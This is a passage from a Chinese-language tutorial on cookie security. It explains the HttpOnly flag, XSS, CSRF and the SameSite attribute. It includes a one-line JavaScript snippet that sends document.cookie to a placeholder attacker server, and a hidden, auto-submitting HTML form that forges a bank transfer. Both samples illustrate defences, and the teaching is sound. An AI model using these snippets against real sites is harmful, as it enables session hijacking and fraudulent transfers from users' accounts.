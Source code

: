 這個參數的設計是為了安全性考量，因為如果 JavaScript 能夠存取這個 cookie 就有受到 XSS Attack (Cross-Site Scripting，跨站腳本攻擊) 的風險。

什麼是 XSS Attack (跨站腳本攻擊) 呢？簡單的說，就是將一段惡意的 JavaScript 程式碼透過表單等方式上傳到 server，之後這份表單資料在前端呈現的時候惡意的 JavaScript 程式碼會被當成是 HTML 的一部分被執行。假設壞人能夠執行 JavaScript，便能很輕易地存取 `document.cookie`，就能夠竊取你用來登入的 cookie，並且用你的身份做惡意的操作：

```JavaScript
// 把你的 cookie 送到壞人的伺服器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

這就是為什麼我們需要禁止 JavaScript 存取 cookie。

### SameSite

`Samesite` 的作用是防止 cookie 以跨站方式傳送，可以幫助避免 CSRF (Cross-Site Request Forgery，跨站請求偽造) 攻擊。要理解 SameSite 如何幫助防止 CSRF 攻擊之前，我們需要先理解 CSRF 攻擊。

CSRF 攻擊是什麼呢？簡單地說，他會在受害者已登入的狀態下，假借受害者的身份進行惡意操作，例如把受害者銀行裡的錢轉到攻擊者自己的帳戶中。

那具體而言 CSRF 攻擊如何進行？

1. 假設含有使用者的機敏資訊網站叫做 bank.com，使用者成功登入 bank.com 後會收到一個加密過後的代表他的身份的 cookie，後續的 request 都會帶有這個 cookie。因為 cookie 經過加密無法輕易偽造，所以 server 可以認證 request 是來自這個使用者本人，也會同意他的轉帳等敏感操作。
2. 壞人透過釣魚信件等方式讓你不小心進到壞人的網站 evil.com，網頁包含一小段發送表單的代碼，會把 bank.com 的錢轉到壞人的戶頭：

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="account" value="john">
  <input type="hidden" name="amount" value="1000000">
  <input type="hidden" name="for" value="badguy">
</form>
<script>window.addEventListener('DOMContentLoaded', (e) => { document.querySelector('form').submit(); }</script>
```

因為送往 bank.com 的 request 都會帶有用來表示身份的 cookie，包含發送表單的 POST request，所以 server 會認為這個 request 沒有問題，然後錢就轉給壞人了～

> 註：一般而言會在表單中多帶一個 server 產生的 CSRF token 去防範此攻擊，但與 `SameSite` 兩個防護措施可同時並行。

> 註：在 evil.com 內發送 bank.com 的請求的情境下，back.com 的 cookie 就是所謂的[第三方 cookie](./#third-party-cookie-第三方-cookie)。

這裡的關鍵是：這個 POST 是一個**跨域請求**。什麼是跨域請求呢？**當一個請求的網域和網址列中的網域不同的時候，它就是一個跨域請求。**這裏我們可以看到，瀏覽器的網址列中的網域是 evil.com，但是我們送了一個往 bank.com 網域的 POST request，所以這是一個跨域請求。

**而跨域請求攜帶 cookie 就會有遭受 CSRF 攻擊的風險。**

那我們再回來看 `SameSite` 參數如何協助我們防範 CSRF 攻擊。

`SameSite` 一共有三種不同的設定，分別對應不同的安全性層級：

* `SameSite=strict`

`Strict` 表示 request 的網域必須跟網址列中的網域相同，才會發送這個 cookie。以上面的例子而言，發送轉帳的 POST 請求時，因為屬於跨域請求的關係，並不會攜帶表示身份的 cookie，就**不會受到 CSRF 攻擊**。

比較特別的一點是，如果是從 email 導過去 bank.com，`SameSite` cookie 也不會被發送給 server。這可以保護使用者不會因為點了釣魚信件的連結就轉帳給壞人。缺點是，即使信件確實是來自 bank.com，也一律需要使用者重新登入，相對而言較為不方便。所以這個設置比較適合用於敏感操作上，例如轉帳、修改密碼等。
